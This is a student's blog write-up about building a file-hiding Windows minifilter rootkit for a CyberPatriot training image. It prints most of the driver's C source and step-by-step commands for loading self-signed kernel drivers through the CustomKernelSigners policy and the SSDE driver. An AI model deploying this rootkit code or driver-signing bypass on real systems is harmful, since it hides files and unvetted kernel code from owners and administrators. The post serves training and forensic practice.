






During my time as Cyber Squad president for my high school, I had the duty of making practice images for the CyberPatriot competition to give to the students in the club. A hard category of vulnerabilities that students face is called “policy violations.” Policy violations include malware, prohibited files, and unwanted software. Malware can be tricky to find, so as a project, I decided to write my own rootkit to hide a file in the C drive in order to demonstrate what proper tooling is required to find such rootkits. Here is my journey.

If you would like to attempt the image, please visit [https://sakouk.me/cyberpatriot#eths-cyber-squad-policy-violations-image](https://sakouk.me/cyberpatriot#eths-cyber-squad-policy-violations-image).

## Minifilters

My original idea for this rootkit was to keep its functionality simple, as CyberPatriot is a trivial competition and many vulnerabilities are repeated. Although rootkits are rare to come across, during my time competing, I never came across one. So, my idea was to make the rootkit simply hide a file in the `C:\` drive so it can’t be seen through commands like `ls`. For this rootkit, I decided that a minifilter would be best for this project.

A minifilter, a type of file system filter driver, in simple terms, acts as a [middleman](https://backup.education/showthread.php?tid=19692) for file operations on the disk. Whenever a program or the operating system asks to do a task which requires interacting with the file system, the request goes through the kernel and be handled by the I/O system (explained below). It then goes through minifilters installed on the system, where the request can be modified, and eventually handled by the file system driver responsible, such as NTFS. The usual flow looks like this:



*Note: The number of minifilters varies between systems. You can check how many are installed with the PowerShell command `fltmc filters`*

[Here](https://medium.com/@WaterBucket/understanding-mini-filter-drivers-for-windows-vulnerability-research-exploit-development-391153c945d6), we see that a request can go through multiple minifilters. Whether the request goes through other minifilters is dependent on what the filter manager receives as a status code from the minifilters. Each minifilter is given an altitude number. This number determines the order in which minifilters run from the highest to the lowest. After each minifilter does its job, it returns a [status code](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/writing-preoperation-callback-routines) on whether processing completes early (FLT_PREOP_COMPLETE), a post-operation callback is requested (a function that runs after the file-system operation finishes processing, using FLT_PREOP_SUCCESS_WITH_CALLBACK), or whether the operation continues (FLT_PREOP_SUCCESS_NO_CALLBACK). Callbacks are useful because minifilters are used by many antivirus products that need additional testing for any suspicious files! We can abuse these callbacks by writing our own minifilter to hide our file.

Before we get into specific callbacks, we need to understand what an I/O operation is. I/O stands for input/output. In short, an I/O operation is a request to do something. When an I/O operation is sent, the request is passed to the component that will handle the operation. As [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/windows-kernel-mode-i-o-manager) explains, “The Windows kernel-mode I/O manager manages the communication between applications and the interfaces provided by device drivers.” For example, the filter manager would decide what to do with a return status given by a minifilter and, in some cases, call a post-operation callback. When we “intercept” an I/O, the filter manager calls a callback function registered by our minifilter. That can be whatever, ranging from hiding it, or grabbing file metadata. We will describe that below.

## `IRP_MJ_CREATE` and `IRP_MJ_DIRECTORY_CONTROL`

To better understand how this minifilter rootkit works, we need to understand two I/O operations: `IRP_MJ_CREATE` and `IRP_MJ_DIRECTORY_CONTROL`.

`IRP_MJ_CREATE` is sent when Windows opens a handle to a file object or device object. Using this operation, we can write code where we register a pre-operation callback to intercept the `IRP_MJ_CREATE` operation and check it against a specific filename string. Here is the code used to show this:

*Note: For transparency, AI was used to assist in writing C code and make the rootkit.*

```c
CONST FLT_OPERATION_REGISTRATION Callbacks[] = {
    { IRP_MJ_CREATE,
      0,
      PreCreateOperation,
      NULL },

    { IRP_MJ_DIRECTORY_CONTROL,
      0,
      PreDirectoryControl,
      PostDirectoryControl },

    { IRP_MJ_OPERATION_END }
};
```

Here, we see that `PreCreateOperation`, our callback, is registered for `IRP_MJ_CREATE`. So, whenever an `IRP_MJ_CREATE` operation passes through this filter and the minifilter is attached, the filter manager calls `PreCreateOperation()`. We also see that `PreDirectoryControl` and `PostDirectoryControl` is registered with `IRP_MJ_DIRECTORY_CONTROL` which we will get to later.

Let’s see what `PreCreateOperation` does:

```c
PreCreateOperation(
    PFLT_CALLBACK_DATA    Data,
    PCFLT_RELATED_OBJECTS FltObjects,
    PVOID* CompletionContext
)
{
    UNREFERENCED_PARAMETER(FltObjects);
    *CompletionContext = NULL;

    PFLT_FILE_NAME_INFORMATION nameInfo;
    NTSTATUS status = FltGetFileNameInformation(
        Data,
        FLT_FILE_NAME_NORMALIZED |
        FLT_FILE_NAME_QUERY_ALWAYS_ALLOW_CACHE_LOOKUP,
        &nameInfo
    );
    if (!NT_SUCCESS(status)) {
        return FLT_PREOP_SUCCESS_NO_CALLBACK;
    }

    FltParseFileNameInformation(nameInfo);

    if (RtlCompareUnicodeString(&nameInfo->FinalComponent,
        &gHiddenFileName,
        TRUE) == 0)
    {
        FltReleaseFileNameInformation(nameInfo);
        Data->IoStatus.Status = STATUS_OBJECT_NAME_NOT_FOUND;
        Data->IoStatus.Information = 0;
        return FLT_PREOP_COMPLETE;
    }

    FltReleaseFileNameInformation(nameInfo);
    return FLT_PREOP_SUCCESS_NO_CALLBACK;
}
```

`gHiddenFileName` was defined elsewhere in the code as `averysecretcoolandhiddentextfileibetyoucannotsee.txt`. This is the file we are hiding in `C:\`. Technically, it can also hide any file stored anywhere else with the same file name.

`FltGetFileNameInformation` gets the filename structure associated with the current I/O request. [`FltParseFileNameInformation(nameInfo);`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/fltkernel/nf-fltkernel-fltparsefilenameinformation) “parses the Name member of a FLT_FILE_NAME_INFORMATION structure and uses the results to set the values of the Volume, Share, Extension, Stream, FinalComponent, ParentDir, and NamesParsed members of this structure.” The code then uses `&nameInfo->FinalComponent` to specifically grab the filename. That filename is compared against `gHiddenFileName` here:

```c
if (RtlCompareUnicodeString(&nameInfo->FinalComponent,
        &gHiddenFileName,
        TRUE) == 0)
```

If the file name matches, the driver sets the status of the operation to `STATUS_OBJECT_NAME_NOT_FOUND`, deliberately saying it wasn’t ‘found,’ and returns `FLT_PREOP_COMPLETE`, signifying the operation was completed by the minifilter. If it does not match, it returns `FLT_PREOP_SUCCESS_NO_CALLBACK`, which continues normally.

This interception helps prevent the file from being opened by name. So, it will prevent `cat averysecretcoolandhiddentextfileibetyoucannotsee.txt` and any other open requests. However, we need to prevent it from being viewed in directory listings, such as seeing it in Explorer. This is where `IRP_MJ_DIRECTORY_CONTROL` comes into play. This follows a similar flow as `IRP_MJ_CREATE`.

`IRP_MJ_DIRECTORY_CONTROL` is used by Windows to manage directory contents, such as knowing the contents of a directory.

We register a callback for `IRP_MJ_DIRECTORY_CONTROL`:

```c
{ IRP_MJ_DIRECTORY_CONTROL,
  0,
  PreDirectoryControl,
  PostDirectoryControl },
```

Here is `PreDirectoryControl`:

```c
PreDirectoryControl(
    PFLT_CALLBACK_DATA    Data,
    PCFLT_RELATED_OBJECTS FltObjects,
    PVOID* CompletionContext
)
{
    UNREFERENCED_PARAMETER(Data);
    UNREFERENCED_PARAMETER(FltObjects);
    *CompletionContext = NULL;
    return FLT_PREOP_SUCCESS_WITH_CALLBACK;
}
```

All `PreDirectoryControl` does is return `FLT_PREOP_SUCCESS_WITH_CALLBACK`. Why? Well, as [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/returning-flt-preop-success-with-callback) says:

> If a minifilter driver’s preoperation callback routine returns FLT_PREOP_SUCCESS_WITH_CALLBACK, the filter manager calls the minifilter driver’s postoperation callback routine during I/O completion.

> Note: If the minifilter driver’s preoperation callback routine returns FLT_PREOP_SUCCESS_WITH_CALLBACK but the minifilter driver has not registered a postoperation callback routine for the operation, the system asserts on a checked build.

We need `PreDirectoryControl` in order to use `PostDirectoryControl` to modify the directory listing.

`PostDirectoryControl`’s sequence is as follows:

First, it checks if the directory query succeeded:

```c
if (!NT_SUCCESS(Data->IoStatus.Status)) {
    return FLT_POSTOP_FINISHED_PROCESSING;
}
```

Then, it grabs the directory query result buffer returned with directory entries.

```c

    PUCHAR buffer = (PUCHAR)Data->Iopb->Parameters.DirectoryControl
        .QueryDirectory.DirectoryBuffer;
```

It then checks what structure format each entry has with `FILE_INFORMATION_CLASS`.

`FILE_INFORMATION_CLASS` shows the type of structure of a directory or file that is being requested. In our rootkit, we enumerate through five:

```text
FileDirectoryInformation
FileFullDirectoryInformation
FileBothDirectoryInformation
FileIdBothDirectoryInformation
FileIdFullDirectoryInformation
```

For example, `FileDirectoryInformation` returns:

```text
NextEntryOffset
FileIndex
CreationTime
LastAccessTime
LastWriteTime
ChangeTime
EndOfFile
AllocationSize
FileAttributes
FileNameLength
FileName (variable)
```

It then goes into a loop, checking only for `name` and `nextOffset`:

```c
while (remaining > 0) {
        ULONG nextOffset = 0;
        UNICODE_STRING name;
        BOOLEAN match = FALSE;

        if (infoClass == FileDirectoryInformation) {
            PFILE_DIRECTORY_INFORMATION dirInfo = (PFILE_DIRECTORY_INFORMATION)current;
            nextOffset = dirInfo->NextEntryOffset;
            name.Buffer = dirInfo->FileName;
            name.Length = (USHORT)dirInfo->FileNameLength;
            name.MaximumLength = name.Length;

        }
        else if (infoClass == FileFullDirectoryInformation) {
            PFILE_FULL_DIR_INFORMATION fi = (PFILE_FULL_DIR_INFORMATION)current;
            nextOffset = fi->NextEntryOffset;
            name.Buffer = fi->FileName;
            name.Length = (USHORT)fi->FileNameLength;
            name.MaximumLength = name.Length;

        }
        else if (infoClass == FileBothDirectoryInformation) {
            PFILE_BOTH_DIR_INFORMATION bi = (PFILE_BOTH_DIR_INFORMATION)current;
            nextOffset = bi->NextEntryOffset;
            name.Buffer = bi->FileName;
            name.Length = (USHORT)bi->FileNameLength;
            name.MaximumLength = name.Length;

        }
        else if (infoClass == FileIdBothDirectoryInformation) {
            PFILE_ID_BOTH_DIR_INFORMATION ib = (PFILE_ID_BOTH_DIR_INFORMATION)current;
            nextOffset = ib->NextEntryOffset;
            name.Buffer = ib->FileName;
            name.Length = (USHORT)ib->FileNameLength;
            name.MaximumLength = name.Length;

        }
        else {
            PFILE_ID_FULL_DIR_INFORMATION ifi = (PFILE_ID_FULL_DIR_INFORMATION)current;
            nextOffset = ifi->NextEntryOffset;
            name.Buffer = ifi->FileName;
            name.Length = (USHORT)ifi->FileNameLength;
            name.MaximumLength = name.Length;
        }

        if (RtlCompareUnicodeString(&name,
            &gHiddenFileName,
            TRUE) == 0)
        {
            match = TRUE;
        }
```

The driver compares each entry against `gHiddenFileName`, which is `averysecretcoolandhiddentextfileibetyoucannotsee.txt`, and if it matches, the driver removes the entry by shifting all the entries that are after the file in the returned buffer over the matched entry, as shown below.

```c
if (match) {
    if (nextOffset != 0) {
        RtlMoveMemory(
            current,
            current + nextOffset,
            remaining - nextOffset
        );
        remaining -= nextOffset;
        continue;
    }
```

So what if the file is the last entry? There is nothing to shift it on top of the matched entry. Well, the driver does the following:

```c
else if (previous) {
    ((PFILE_DIRECTORY_INFORMATION)previous)->NextEntryOffset = 0;
}
```

All this does is remove the link to the last entry to make the directory “end” right there. I made the mistake to not include an edge case where there is only one file in the returned directory query as we rely on there being a previous entry.

So, in simpler terms, assume we have this flow of files in a directory that was returned by a query:

```
67.txt

6741.txt

69.txt

averysecretcoolandhiddentextfileibetyoucannotsee.txt

lolmeow.txt
```

All the driver does is shift all the files found over the matched file, so, the end result will be:

```text
67.txt

6741.txt

69.txt

lolmeow.txt
```

Here, we see that the directory entry of `lolmeow.txt` shifted over the entry of `averysecretcoolandhiddentextfileibetyoucannotsee.txt` in the returned buffer.

*Note: Nothing is getting deleted. We are only shifting and overlapping the buffer from the directory result on top of itself to make it invisible in directory listings.*

Combining these two I/O operations effectively makes the file invisible to the user on the virtual machine.

## Loading the driver

Perfect, we have this driver that can make a file invisible. Awesome! Let’s load it as a service and everything will be okay! Right?

Not so fast…



We can’t load file system drivers that are unsigned. Starting from Windows 10 version 1607, because of how sensitive kernel-mode code is, Microsoft requires all kernel-mode drivers to be signed through the Microsoft Dev portal. This was a big issue as around this time, I was unemployed and did not have any money to buy a signing certificate. Plus, it would have expired anyway in a couple years, and could also be rejected by Microsoft as this is a “malicious” driver so gg :(

I had a couple options:

1. Enable test signing and make that a vulnerability

   I immediately ruled this out as it is *extremely* obvious that test mode is on:

   

   At first I thought there could be a way to scrub this watermark. But I figured that was not realistic, and after a couple hours of research, it isn’t easy to do.

2. Find a way to load the driver without test mode and without a signing certificate

I ultimately went down so many different paths and found something that worked. Let’s talk about it:

## Custom Kernel Signers and SSDE

While researching, I came across this [article](https://www.geoffchappell.com/notes/windows/license/customkernelsigners.htm).

One major line stood out to me:

> Recent releases of Windows 10 can be configured to allow self-signed kernel-mode drivers in ordinary use with Secure Boot enabled. Security is assured by an assertion of ownership: your driver must be allowed by a System Integrity policy file which you must sign with the Secure Boot Platform Key. The feature is active only in specially licensed editions, except for a contrived case that this article demonstrates.

Continuing to read this article, this line made me have some hope:

> All releases of Windows 10 have code for allowing your self-signed drivers to load on your computers in real-world configurations while protecting others from your drivers and you from theirs. But for the implementation in recent releases of Windows 10, Microsoft doesn’t license you to use this code.

Perfect, this is exactly what we need. Will this work on Windows 11 (short answer, yes)? I didn’t know at the time that it could work for Windows 11 but I figured that because Microsoft likes to have backward compatibility, we can reasonably assume it will work on Windows 11.

## So, how does this work?

A certain product policy called `CodeIntegrity-AllowConfigurablePolicy-CustomKernelSigners` allows us to decide what certificates are allowed or not in the kernel. We will need secure boot enabled for this to work. We can allow our own certificates to be trusted in the kernel and use that certificate to sign the rootkit, hence bypassing the need for test mode or a paid certificate.

We first will need to create our own certificates for this. Following this [guide](https://github.com/HyperSine/Windows10-CustomKernelSigners/blob/master/asset/build-your-own-pki.md), we can make our own certificates to be trusted by the kernel.

Once done, we will have three certificates: a self-signed root CA certificate, a kernel mode certificate, and a UEFI platform key. We will use the kernel mode certificate to sign our driver.

## Code Integrity Policy

We need to generate a baseline so that the kernel can trust our certificates. Without this, there will be no link with our certificate to the kernel.

Using this [guide](https://github.com/HyperSine/Windows10-CustomKernelSigners/tree/master#23-build-kernel-code-sign-certificate-rules), the following sequence of commands will allow us to generate the baseline needed. From personal experience, using the SiPolicy.xml given by the author did not work.

```powershell
New-CIPolicy -FilePath SiPolicy.xml -Level RootCertificate -ScanPath C:\windows\System32\ # scan all of sys32 to generate the baseline
Add-SignerRule -FilePath .\SiPolicy.xml -CertificatePath .\localhost-km.der -Kernel # add kernel certificate to sipolicy.xml
ConvertFrom-CIPolicy -XmlFilePath .\SiPolicy.xml -BinaryFilePath .\SiPolicy.bin # serialize sipolicy.xml. generates binary file
```

Now, we sign it.

```powershell
signtool sign /fd sha256 /p7co 1.3.6.1.4.1.311.79.1 /p7 . /f .\localhost-pk.pfx /p <pass> SiPolicy.bin
```

We now copy our newly made `SiPolicy` to EFI.

```powershell
mv .\SiPolicy.bin.p7 .\SiPolicy.p7b
mountvol x: /s
cp .\SiPolicy.p7b X:\EFI\Microsoft\Boot\
```

Reference: [HyperSine/Windows10-CustomKernelSigners](https://github.com/HyperSine/Windows10-CustomKernelSigners)

Why does this all work? Well, on a normal installation of Windows, a kernel driver has this setup to be accepted:



Stage 1 includes trusted rules by Microsoft to allow the driver to pass stage one and go to stage two. It is important to note that Windows uses either secure boot or the default kernel-mode policy for stage one. Our objective is to add our own custom root through SiPolicy to pass with `Add-SignerRule`, compiling that policy, signing it with the platform key, and deploying it so it is available during boot. The SiPolicy that was made above includes an allow rule to allow our driver which is signed with our cert to pass, allowing it to pass stage 2 and successfully load. The allow rule was made here: `Add-SignerRule -FilePath .\SiPolicy.xml -CertificatePath .\localhost-km.der -Kernel`

In order for the SiPolicy to be recognized by the machine owner, we need to add the UEFI Platform Key certificate to the machine. We need to do this as we used the certificate to sign the policy. To do this, in the `.vmx` file for the virtual machine, these lines were added:

```ini
uefi.allowAuthBypass = "TRUE"
uefi.secureBoot.PKDefault.file0 = "localhost-pk.der"
```

And for any future individuals doing this virtual machine, you can see the cert in the ZIP :)


However, all of what we did will not work unless we enable the product policy that allows our custom certificate to go through. This will honor our new certificate defined in the SiPolicy.

## Enabling `CodeIntegrity-AllowConfigurablePolicy-CustomKernelSigners`

Enabling this policy was tough. First off, it seems as though this policy was designed to be enabled only in the China Government Edition of Windows 10. Why? I don’t know, but we ball. It also will not persist between restarts. Because of this, we need a new driver to persist this product policy to be enabled. We know it is enabled if `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\CI\Protected\Licensed` is set to 1. Fortunately, a kind [soul](https://github.com/valinet/ssde) on GitHub who goes by the name of `valinet` has this driver. This is a kernel driver and the reason it can load is because we temporarily have custom kernel signers enabled and sign it with our own custom kernel signing certificate. As mentioned above, our certificate is authorized by the SiPolicy, so we can use this driver to persist this product policy.

We sign it with:

```powershell
signtool sign /fd sha256 /td sha256 /f .\localhost-km.pfx /p "goodpass!" /ac .\localhost-root-ca.der /tr http://timestamp.digicert.com ssde.sys
```

We register the service with:

```cmd
sc create ssde binpath=%windir%\system32\drivers\ssde.sys type=kernel start=boot error=normal
```

And we start it with:

```cmd
sc start ssde
```

Once it successfully starts, we can finally add our file-hiding rootkit using commands similar to those above, signed with our custom kernel signing certificate!

Here is a screenshot of me finally getting it to work after numerous attempts. After this was said, the product policy was temporarily enabled, and I started the driver:



Shoutout to valinet on GitHub for making this possible!

## Implementing forensic questions around SSDE

I thought SSDE was extremely cool so I implemented a forensic question about it. Here is what I wrote:

```text
The following forensic question has three parts. You MUST answer all parts correctly to get points for this question. The question is below:

Sysadmins at MegaCorp have also identified that the driver has been loaded by unauthorized means without the use of test mode.

What product policy is enabling the use of self-signed drivers to run on this machine?

Note: include the hyphens in your answer.

Example: Custom Made Policy

ANSWER:

What driver is allowing for the policy to be persistent between each startup of the machine?

Example: employment.sys

ANSWER:

What is the exact registry path that enables the use of self-signed drivers in accordance with the policy above?

Example: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall

ANSWER:
```

For the students in the club, I made it trivial to find the driver persisting and the rootkit. We cannot use the usual methods of finding unsigned drivers, but I named the certificate the following:



It is now trivial to find. Just search for non-Microsoft-signed certificates and you can find it relatively easily. It is also in `sys32\drivers` which makes it even easier. In theory, I could’ve impersonated Microsoft, put it in a different folder, and it would have been much harder, but CyberPatriot wouldn’t have done something like that, hopefully…

## Closure

Learning how to bypass test mode and allowing custom-signed kernel drivers to run on Windows was an extremely fun project. It took me weeks to learn all about this and I had lots of fun making the drivers, virtual machine, and writing this blog :)

If you have any questions, please don’t hesitate to reach out to me via email at sakouk131@outlook.com or DMing me on Discord with the username `lolmenow`
